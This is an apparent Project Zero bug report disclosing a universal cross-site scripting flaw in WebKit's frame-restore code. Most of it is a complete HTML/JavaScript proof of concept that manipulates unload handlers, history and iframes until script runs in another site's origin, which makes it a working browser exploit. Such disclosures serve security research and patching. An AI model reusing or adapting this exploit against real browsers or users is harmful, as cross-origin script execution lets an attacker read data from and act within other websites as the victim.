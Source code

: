 # UXSS via CachedFrameBase::restore

### Reported by lokihardt@google.com, Mar 17 2017

This is similar to the case https://bugs.chromium.org/p/project-zero/issues/detail?id=1151.
But this time, javascript handlers may be fired in `FrameLoader::open`.

```cpp
void FrameLoader::open(CachedFrameBase& cachedFrame)
{
	...
    clear(document, true, true, cachedFrame.isMainFrame()); <<--------- prepareForDestruction which fires unloads events is called.
    ...
}
```

PoC:

```html
<html>
<body>
Click anywhere...
<script>

function createURL(data, type = 'text/html') {
    return URL.createObjectURL(new Blob([data], {type: type}));
}

function navigate(w, url) {
    let a = w.document.createElement('a');
    a.href = url;
    a.click();
}

window.onclick = () => {
	window.w = open('about:blank', 'w', 'width=500, height=500');

	let i0 = w.document.body.appendChild(document.createElement('iframe'));
	let i1 = w.document.body.appendChild(document.createElement('iframe'));
	i0.contentWindow.onbeforeunload = () => {
		i0.contentWindow.onbeforeunload = null;

		navigate(w, 'about:blank');
	};

	navigate(i0.contentWindow, createURL(`
<body>
<script>
</scrip` + 't></body>'));

	setTimeout(() => {
		let g = i0.contentDocument.body.appendChild(document.createElement('iframe'));
		let x = new g.contentWindow.XMLHttpRequest();
		x.onabort = () => {
			parseFloat('axfasdfasfdsfasfsfasdf');
			i0.contentDocument.write();

	        navigate(w, 'https://abc.xyz/');

	        showModalDialog(createURL(`
<script>
let it = setInterval(() => {
	try {
	    opener.w.document.x;
	} catch (e) {
	    clearInterval(it);
	    window.close();
	}
}, 10);
</scrip` + 't>'));

	        setTimeout(() => {
		        i1.srcdoc = '<script>alert(parent.location);</scrip' + 't>';
		        navigate(i1.contentWindow, 'about:srcdoc');
	        }, 10);
		};

		x.open('GET', createURL('x'.repeat(0x1000000)));
		x.send();
		w.history.go(-2);
	}, 200);
};

</script>
</body>
</html>
```

Link: https://bugs.chromium.org/p/project-zero/issues/detail?id=1197
